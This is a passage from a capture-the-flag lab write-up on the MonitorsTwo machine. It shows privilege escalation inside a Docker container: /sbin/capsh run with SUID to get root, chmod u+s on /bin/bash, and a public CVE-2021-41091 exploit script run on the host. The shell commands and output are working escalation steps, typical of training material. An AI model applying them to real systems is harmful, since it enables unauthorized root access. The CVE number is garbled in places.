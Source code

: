 Let's go back to our shell session in the docker container (re-do the steps to get the initial foothold if you closed out your connection to the docker container. Since the Marcus user doesn't have sudo privleges, we cannot run docker exec on our ssh session).

I am going to check the privleges for /bin/bash. I uploaded linpeas to see what interesting SUID privleges were set on the container. There was only one two of interest, /sbin/capsh.

```bash
bash-5.1$ ls -alh /sbin/capsh
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
```

Doing another search online for CVE-41091 returned a github repo with a bash script that can leverage this vulnerability and spawn a root shell on the host machine. You can find the script [here](https://github.com/UncleJ4ck/CVE-2021-41091). Let's pull this down to our machine and use __wget__ on the web server to pull the script there (*remember to start a python http server locally on your machine*).

After pulling it over to the machine and running the script you get the following output:

```bash
marcus@monitorstwo:~$ chmod +x root-exp.sh 
marcus@monitorstwo:~$ ./root-exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no):
```

If we remember the details from CVE-41901, the /bin/bash binary on the Docker container needs SUID privleges so we are not ready to go yet. Luckily enough for us, having SUID set on the /sbin/capsh binary enables us to change the privleges of the /bin/bash binary. There is a great section [here](https://gtfobins.github.io/gtfobins/capsh/#suid) from GTFOBins that shows you how you can do this.

```bash
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
which python3
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@50bca5e748b0:/var/www/html# 
```

Cool! Now we have the ability to change the privleges of /bin/bash.

```bash
root@50bca5e748b0:/var/www/html# chmod u+s /bin/bash
chmod u+s /bin/bash
root@50bca5e748b0:/var/www/html# ls -alh /bin/bash
ls -alh /bin/bash
-rwsr-xr-x 1 root root 1.2M Mar 27  2022 /bin/bash
root@50bca5e748b0:/var/www/html#
```
